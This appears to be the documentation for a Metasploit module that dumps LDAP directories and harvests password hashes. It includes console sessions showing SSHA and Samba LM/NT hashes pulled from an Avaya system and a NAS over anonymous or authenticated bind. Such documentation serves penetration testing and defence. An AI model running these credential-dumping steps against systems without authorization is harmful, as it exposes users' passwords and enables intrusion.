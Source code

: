 ## Vulnerable Application

### Description

This module uses an LDAP connection to dump data from LDAP server
using an anonymous or authenticated bind.
Searching for specific attributes it collects user credentials.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the LDAP server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to take the user name from. Defaults to DN, however you may
wish to change it UID, name or similar.

### PASS_ATTR

LDAP attribute to take the password hash from. Defaults to userPassword,
some LDAP server may use different attribute, e.g. unixUserPassword,
sambantpassword, sambalmpassword.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf5 > use auxiliary/gather/ldap_hashdump
msf5 auxiliary(gather/ldap_hashdump) > options

Module options (auxiliary/gather/ldap_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BASE_DN                     no        LDAP base DN if you already have it
   PASS_ATTR  userPassword     yes       LDAP attribute, that contains password hashes
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      389              yes       The target port
   SSL        false            no        Enable SSL on the LDAP connection
   USER_ATTR  dn               no        LDAP attribute, that contains username


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121633_default_[redacted_ip_address]_LDAPInformation_716210.txt
[*] Searching for attribute: userPassword
[*] Taking dn attribute as username
[+] Credentials found: uid=cust,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: uid=admin,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121718_default_[redacted_ip_address]_LDAPInformation_712562.txt
[*] Searching for attribute: userPassword
[*] Taking uid attribute as username
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) >
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > set PASS_ATTR sambantpassword
PASS_ATTR => sambantpassword
msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201006_default_[redacted_ip_address]_LDAPInformation_026574.txt
[*] Searching for attribute: sambantpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Auxiliary module execution completed

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201731_default_[redacted_ip_address]_LDAPInformation_427417.txt
[*] Searching for attribute: sambalmpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:F0D412BD764FFE81AAD3B435B51404EE
[+] Credentials found: joe:3417BE166A79DDE2AAD3B435B51404EE
[*] Auxiliary module execution completed
```
